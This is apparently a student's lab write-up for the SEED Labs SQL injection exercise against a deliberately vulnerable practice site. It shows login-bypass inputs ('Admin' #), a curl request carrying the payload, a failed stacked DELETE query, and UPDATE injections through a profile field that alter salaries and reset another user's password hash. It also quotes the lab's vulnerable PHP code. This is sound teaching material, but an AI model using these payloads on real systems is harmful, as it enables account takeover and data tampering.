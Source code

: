 # SQL-INJECTION

<h1>Task 1</h1>
<h3>Login MYSQL:</h3>
<p>mysql -u root -pseedubuntu<br>
   mysql> use Users;<br>
   mysql> show tables;<br>
</p>
<h3>Use Such a SQL Query:</h3>
<p>select * from credential where Name = 'Alice';</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h1>Task 2</h1>
<h2>Task 2.1</h2>
<ul>
<li>USERNAME: "Admin' #"</li>
<li>PASSWORD: "*" whatever the password was</li> 
</ul>
<h3>It will result in a SQL Query as:</h3>
<p>SELECT id, name, eid, salary, birth, ssn, address, email,<br>
   nickname, Password<br> 
   FROM credential<br>
   WHERE name= 'Admin' #' and Password='*'
   </p>
<p>Then statement after <code>#</code> will bi regarded as comments. So we can login in as <code> Admin</code>.</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.2</h2>
<pre>
<code>
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
</code>
</pre>
<p>It will return a bunch of <code>html</code>code. When exporting outputs to file by<code> > temp.html</code>and open it</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.3</h2>
<p>We neeed to delete such a statement to append a row to current database:</p>
<code>DELETE credential where name='ted';
</code><br>
<p>So constructed:</p>
<ul>
<li>USERNAME: <code>" '1=1; DELETE credential where name='ted';#"</code></li>
<li>PASSWORD: <code>" "</code> (Remain Blank)</li> 
</ul>
<p>It fails and alerts with a syntax error:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Because in PHP's <code>mysqli</code> extension, which invokes <code>mysqli::query</code>  API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.</p>
<h1>Task 3</h1>
<p>It's hard to find the navigation buttons on this website <br>(<a href="http://www.SeedLabSQLInjection.com" rel="nofollow">www.SeedLabSQLInjection.com</a>).
<p>In order to edit the profile, please log in and then jump to the link address: <br><a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a> by Hand.</p>
<h2>Task 3.1</h2>
<p>Log in with Alice's username and password, enter <br> <a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a></p>
<p>Modify Phone Number as <code>', Salary=500000</code> and save</p>
<h2>Task 3.2</h2>
<p>Log in with username <code>Boby' #</code>  and arbitrary password, open his profile edit page.</p>
<p>Fill in with:</p>
<p>Phone Number: <code>', Salary=1</code></p>
<p>And keep other properties unchanged. Submit the modification.</p>
<p>Now, you can see:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Log-in as Alice</p>
<p>Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.</p>
<p>We should change the Phone Number as</p> 
<pre><code>', Salary=1 where name='Boby' #</code></pre>
<h2>Task 3.3</h2>
<p>Of course, the simplest approach is to log-in as Boby like <code>Task 3.2</code> and change the password.</p>
<p>If we must do all things and keep log-in with Alice's own account. We might face such an issue:</p>
<p>According to code below in <code>unsafe_edit_backend.php</code>, if <strong>Password</strong> is to be updated, the session's <code>pwd</code> will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.</p>
<pre><span class="pl-s1"><span class="pl-c1">$</span>conn</span> = <span class="pl-en">getDB</span>();
<span class="pl-c">// Don't do this, this is not safe against SQL injection attack</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span>=<span class="pl-s">""</span>;
<span class="pl-k">if</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>!=<span class="pl-s">''</span>){
<span class="pl-c">// In case password field is not empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>hashed_</span> = <span class="pl-en">sha1</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>);
<span class="pl-c">//Update the password stored in the session.</span>
<span class="pl-s1"><span class="pl-c1">$</span><span class="pl-c1">_SESSION</span></span>[<span class="pl-s">'pwd'</span>]=<span class="pl-s1"><span class="pl-c1">$</span>hashed_pwd</span>;
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}<span class="pl-k">else</span>{
<span class="pl-c">// if passowrd field is empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">query</span>(<span class="pl-s1"><span class="pl-c1">$</span>sql</span>);
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">close</span>();
<span class="pl-en">header</span>(<span class="pl-s">"Location: unsafe_home.php"</span>);
<span class="pl-en">exit</span>();</pre>
<p>We should do all things in <strong>Phone Number</strong> field.</p>
<p>Assume we want to change Boby's password as <code>tedwashere</code>. First, we should get SHA1 value of our new password via some <a href="http://www.sha1-online.com/" rel="nofollow">online tool</a> as</p>
<pre><code>1b3263246794fe4094be7ae99e21b34454d9676f
</code></pre>
<p>Then construct <strong>Phone Number</strong> as:</p>
<pre><code>', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
</code></pre>
<p>and save. Now, the change works. You can log in with username <code>Boby</code> and password <code>tedwashere</code>.</p>
<p>Verify:</p>
<p>Screen shoot is in SQL Injection Folder</p>

